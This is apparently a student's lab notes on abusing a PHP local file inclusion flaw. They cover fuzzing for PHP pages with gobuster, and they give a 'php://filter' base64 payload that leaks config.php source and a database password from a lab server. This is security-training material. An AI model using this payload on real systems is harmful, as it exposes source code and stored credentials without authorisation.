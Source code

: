 # PHP Filters

## Input Filters 
>[PHP Filters](https://www.php.net/manual/en/filters.php) are a type of PHP wrappers,where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`.

---

##  Fuzzing for PHP Files

>The first step would be to fuzz for different available PHP pages with a tool like `ffuf` , `gobuster` or `feroxbuster`, and because we have a LFI we don't need to worry about 301,302 or 403 status codes cos we can read it's content anyway using LFI

---
## Standard PHP Inclusion
>Trying to read `.php` source code using LFI might not work because the page will render the PHP inside the file we are trying to read that's why we can use PHP `wrappers` to convert the output of the `.php` file into for example base64

---
## Source Code Disclosure
>Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the `base64` PHP filter. Let's try to read the source code of `config.php` using the base64 filter, by specifying `convert.base64-encode` for the `read` parameter and `config` for the `resource` parameter, as follows:

Code:
```url
php://filter/read=convert.base64-encode/resource=config
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```
>>**Note:** We intentionally left the resource file at the end of our string, as the `.php` extension is automatically appended to the end of our input string, which would make the resource we specified be `config.php`.

then we can use `base64 -d` to decode base64 and get source code
Code:
```bash
echo 'PD9waHAK...SNIP...KICB9Ciov' |base64 -d
```

---
## Exercise 
**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**

extracting index.php to test our lfi
![[Pasted image 20230305172426.png]]
![[Pasted image 20230305172513.png]]
![[Pasted image 20230305172517.png]]
`gobuster dir -u http://142.93.37.0:30120 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php`
![[Pasted image 20230305172745.png]]
`php://filter/read=convert.base64-encode/resource=configure `
![[Pasted image 20230305172820.png]]

![[Pasted image 20230305172919.png]]
![[Pasted image 20230305172937.png]]


